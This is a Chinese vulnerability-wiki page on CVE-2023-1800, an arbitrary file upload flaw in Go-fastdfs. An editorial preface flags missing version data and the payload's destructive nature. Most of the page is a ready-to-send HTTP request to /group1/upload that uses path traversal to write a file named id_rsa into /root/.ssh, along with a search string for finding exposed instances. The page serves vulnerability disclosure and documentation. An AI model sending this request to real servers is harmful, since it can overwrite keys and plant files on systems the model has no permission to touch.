



# Go-fastdfs upload 任意文件上传漏洞 CVE-2023-1800

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：上传接口可达且允许自定义路径/文件名、进程对目标路径可写；写/root需要相应权限
- 证据范围：核心是path遍历到任意位置，不只是文件服务正常上传。示例内容test写id_rsa不能证明SSH登录能力，可能破坏现有密钥。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 只写产品名不列受影响版本/配置
- Host空白、Content-Length固定，结果仅截图未视检
- 目标root路径非通用权限，payload覆盖敏感文件有明显破坏性无清理
- 无修复方案或CVE原始来源

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Go-fastdfs upload 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，攻击服务器

## 漏洞影响

```
Go-fastdfs
```

## 网络测绘

```
"go-fastdfs"
```

## 漏洞复现

主页面



验证POC

```http
POST /group1/upload HTTP/1.1
Host: 
Content-Length: 951
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryigj9M9EJykZc9u53
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="file"; filename="id"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="scene"

default
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="filename"

id_rsa
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="output"

json2
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="path"

../../../../../root/.ssh
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="code"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="auth_token"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryigj9M9EJykZc9u53--
```





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
